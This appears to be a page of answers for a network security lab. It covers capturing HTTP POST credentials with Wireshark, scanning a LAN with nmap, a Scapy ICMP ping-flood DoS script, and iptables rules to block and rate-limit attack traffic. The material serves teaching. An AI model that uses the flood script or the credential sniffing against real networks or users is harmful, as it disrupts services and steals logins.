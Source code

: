 ##Question 1: Implement the network sniffers to find out usernames and passwords by retrieving the packets from HTTP POST on any website.
Steps Using Wireshark (No Code Needed):

Open Wireshark.
Select your network interface.
Apply the filter: http.request.method == "POST".
Capture traffic, identify HTTP POST packets, and inspect their payload for credentials.

Note: HTTP POST often transmits data like usernames and passwords in plain text. Ensure ethical and authorized use.

##Question 2: Define the topology used in LAN and scan the network with details like IP, MAC Address, Host name, Username, and OS details of at least 10 machines, and generate the report.
Using nmap Command (No Code Needed):

Install nmap:

sudo apt install nmap
Scan your LAN:

sudo nmap -sn 192.168.1.0/24
(Replace 192.168.1.0/24 with your subnet.)

To get detailed information, use:

sudo nmap -A -T4 192.168.1.0/24
(This will provide details like IP, MAC Address, Hostname, OS, and open ports.)

Save the output:

sudo nmap -A -T4 192.168.1.0/24 > network_report.txt
(The results will be stored in network_report.txt.)

##Question 3: Attempt a DoS/DDoS attack on the target computer and display the list of IPs with access details. Prevent the DDoS attack using any firewall.

Part A: Attempt DoS Attack
Code for DoS Attack Using Scapy:

python

from scapy.all import *

target_ip = "192.168.1.100"  # Replace with the target IP
packet = IP(dst=target_ip)/ICMP()  # ICMP packets for ping flood

print("Starting DoS attack...")
send(packet, count=10000, inter=0.001)  # Sends 10,000 packets
print("DoS attack completed.")

Part B: Display IPs Who Attempted the Attack
Monitor logs using:

bash
sudo tail -f /var/log/syslog

Use iptables to track incoming traffic:

bash
sudo iptables -L -n -v

Part C: Prevent DDoS Using Firewall
Commands to Block IPs Using iptables:

Block specific attacking IP:

bash
sudo iptables -A INPUT -s <attacker-ip> -j DROP

Use rate limiting to mitigate attacks:

bash
sudo iptables -A INPUT -p tcp --dport 80 -m limit --limit 25/minute --limit-burst 100 -j ACCEPT
sudo iptables -A INPUT -p tcp --dport 80 -j DROP
